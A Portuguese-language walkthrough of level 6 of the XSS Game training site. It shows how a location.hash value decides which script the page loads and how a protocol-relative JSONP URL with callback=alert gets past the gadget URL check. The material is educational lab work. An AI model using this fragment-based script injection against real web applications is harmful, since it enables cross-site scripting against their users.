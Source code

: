 ## Descrição da Missão

Aplicações web complexas às vezes têm a capacidade de carregar dinamicamente bibliotecas JavaScript com base no valor de seus parâmetros de URL ou parte do location.hash.

Isso é muito difícil de acertar -- permitir que a entrada do usuário influencie a URL ao carregar scripts ou outros tipos de dados potencialmente perigosos, como XMLHttpRequest, frequentemente leva a vulnerabilidades sérias. Objetivo da Missão Encontre uma maneira de fazer com que a aplicação solicite um arquivo externo que faça com que execute um alert().

## Dicas

1. Veja como o valor do fragmento de localização (após #) influencia a URL do script carregado.
2. A verificação de segurança na URL do gadget é realmente à prova de falhas?
3. Às vezes, quando estou frustrado, sinto vontade de gritar...
4. Se você não consegue hospedar facilmente seu próprio arquivo JS malicioso, veja se google.com/jsapi?callback=foo pode ajudar aqui.

## Passo 1: Analisando a URL e o fragmento de localização

- após `#` temos `/static/gadget.js`. Este é o "fragmento de localização" que pode estar influenciando o carregamento do script.

![Resultado do teste](attachments/desafio6-attachments/desafio6-img1.png)

Precisamos observar como o fragmento após `#` (neste caso, `/static/gadget.js`) está sendo usado na página. A mensagem "Couldn't load gadget from /static/gadget.js" indica que a aplicação está tentando carregar um script a partir dessa URL.

- Abrindo o Inspect, com a finalidade de verificar se há qualquer comportamento ou mensagens adicionais na página relacionadas ao carregamento de scripts, o console indica o seguinte erro `GET https://xss-game.appspot.com/static/gadget.js net::ERR_ABORTED 404 (Not Found)`

![Resultado do teste](attachments/desafio6-attachments/desafio6-img2.png)

- Isso confirma que o script `/static/gadget.js` realmente não está disponível. É um indício de que a aplicação está tentando carregar scripts com base no fragmento da URL, mas não está encontrando o arquivo especificado. Podemos explorar e aproveitar esse erro para carregar um script que execute um `alert()`

## Passo 2: Manipulando o Fragmento de URL

Podemos manipular o fragmento da URL para carregar um script de uma fonte externa. A dica mencionou usar algo como `google.com/jsapi?callback=foo`.  Pesquisei como modificar o fragmento da URL para apontar para um script externo que pode executar um `alert()`. E encontrei um script do Google para isso. Vamos substituir então o callback=foo para o seguinte:

`https://xss-game.appspot.com/level6/frame#//google.com/jsapi?callback=alert`

E assim conseguimos passar de fase

![Resultado do teste](attachments/desafio6-attachments/desafio6-img3.png)
## Explicação

- **Fragmento da URL (`location.hash`)**: No contexto desse desafio, estamos tentando explorar a capacidade da aplicação de carregar scripts de URLs externas. Para isso podemos retirar o `/static/gadget.js` porque este fragmento da URL após o `#` não é enviado ao servidor, mas é acessível pelo JavaScript no cliente.

- **Manipulação do Fragmento**: Ao alterar o fragmento para uma URL externa como `//google.com/jsapi?callback=alert`, conseguimos redirecionar a aplicação para carregar um script de uma fonte externa. O `//` no início da URL faz com que o navegador interprete isso como uma URL completa, ignorando o domínio original.

- **Callback**: Em muitos serviços web, especialmente APIs, o parâmetro `callback` especifica uma função de retorno chamada (callback function). Essa função é chamada quando o script carregado é executado. Isso é comum em JSONP (JSON with Padding), que permite carregar dados de um servidor em um domínio diferente. Quando você solicita `google.com/jsapi` com o parâmetro `callback`, o servidor responde com um script que chama a função especificada no parâmetro `callback` com os dados carregados. Usando `callback=alert`, estamos explorando essa funcionalidade de JSONP para criar um alerta na página